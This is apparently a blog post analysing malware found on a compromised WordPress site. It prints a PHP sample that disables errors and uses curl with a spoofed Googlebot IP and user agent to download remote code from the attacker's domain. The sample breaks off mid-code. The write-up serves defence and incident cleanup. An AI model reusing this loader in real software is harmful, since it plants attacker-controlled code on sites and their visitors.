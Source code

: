 ```yaml
---
title: "How I Saved a Wordpress Site: Part 1"
date: "2021-03-08"
---
```

## Wordpress Malware, Base64, and PHP
#### Analysis of the code behind the attack.
Recently a friend of mine noticed something weird about her company's website. There were links on the page that were redirecting to http://buymskey.com, which is unsecure since it uses http. 
Immediately I figured that this was some kind of malware that had found it's way into the site and after I was given the credentials, logged into the admin, and downloaded the backup of the site to inspect I noticed malware files all over the place. All the files were located within the wp-content and wp-includes directories. Within the wp-content there were files with names like loc_bat_rae and such like that peppered throughout random directories. 

Below is a sample of the code:

 ```php
 //this is require_editor file start
    error_reporting(0);
      set_time_limit(0);
      $log_sure=True;
      $write_file='write_work_complete.log';
  if (file_exists($write_file)==True){
	$get_content=file_get_contents($write_file);
	if ((strpos($get_content, 'confirm:start of editor file') !== false) && (strpos($get_content, 'confirm:end of editor file') !== false)){
		$content=$get_content;
	} else {
		$log_sure=False;
	}
  } else {
	$log_sure=False;
  }
  if($log_sure==False){
	  if(function_exists('curl_init')){
	  $s = curl_init();
	  curl_setopt($s,CURLOPT_URL,'http://mir.buymskey.com/tool/editor.txt');
	  curl_setopt($s,CURLOPT_RETURNTRANSFER,1);
	  curl_setopt($s,CURLOPT_USERAGENT,'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36');
	  curl_setopt($s,CURLOPT_REFERER,"http://www.google.com");
	  curl_setopt($s, CURLOPT_HTTPHEADER, array('X-FORWARDED-FOR:66.249.72.240', 'CLIENT-IP:66.249.72.240'));
	  curl_setopt($s, CURLOPT_HTTPHEADER, array('Expect:'));
	  curl_setopt($s, CURLOPT_ENCODING, "");
	  curl_setopt($s, CURLOPT_SSL_VERIFYPEER, false);
	  curl_setopt($s, CURLOPT_CONNECTTIMEOUT , 20);
	  curl_setopt($s, CURLOPT_TIMEOUT, 20);
		curl_setopt($s, CURLOPT_COOKIE, 'foo=bar');
	$content = curl_exec($s);
	  curl_close($s);
	  }else{
	  $options = array(
	  'http'=>array(
		'method'=>"GET",
		'timeout'=>20,
		'header'=>"Accept-language: en\r\n" .
				  "Cookie: foo=bar\r\n" .  // check function.stream-context-create on php.net
				  "User-Agent: Mozilla/5.0 (iPad; U; CPU OS 3_2 like Mac OS X; en-us) AppleWebKit/531.21.10 (KHTML, like Gecko) Version/4.0.4 Mobile/7B334b Safari/531.21.10" // i.e. An iPad 
	  ),
 ```